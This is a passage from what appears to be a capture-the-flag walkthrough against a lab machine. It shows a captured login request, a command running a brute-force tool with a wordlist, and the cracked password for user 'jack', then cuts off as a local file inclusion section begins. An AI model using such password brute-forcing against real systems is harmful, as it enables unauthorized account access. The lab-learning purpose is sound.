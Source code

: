 I saved this into header.txt and modified the password value to ^%letmein^% as described by raider. 

```
# cat header.txt 
POST /super_secret_login_path_muhahaha/login.php HTTP/1.1
Host: 172.16.229.151
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:24.0) Gecko/20140610 Firefox/24.0 Iceweasel/24.6.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://172.16.229.151/super_secret_login_path_muhahaha/
Cookie: PHPSESSID=2bcc5t4g72043ronu46mtkmi32
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 45

username=jack&password=^%letmein^%&mysubmit=Login
```

With the wordlist ready and the HTTP headers captured, I passed them to raider and let it do its magic:

```
# python raider.py --wordlist ~/hell/wordlist.txt --header ~/hell/header.txt -s 2 --keyword Failed --attack 1
```

After a couple of minutes, I was able to obtain the password for jack:

```
[-] Size: 220	Response Code: 200	Req ID: 13876
[-] Size: 220	Response Code: 200	Req ID: 13877
[-] Size: 220	Response Code: 200	Req ID: 13878
[+] Size: 239	Response Code: 200	Req ID: 13879	Success!! Fuzz Value: g0tmi1k69
```

I logged in and was presented with a set of folders:  

->![](/images/2014-07-15/6.png)<-

### Local file inclusion

Of these folders, Personal Folder and Notes were the most interesting. The Notes folder allowed the user to create a text file that was stored in some temporary directory. 
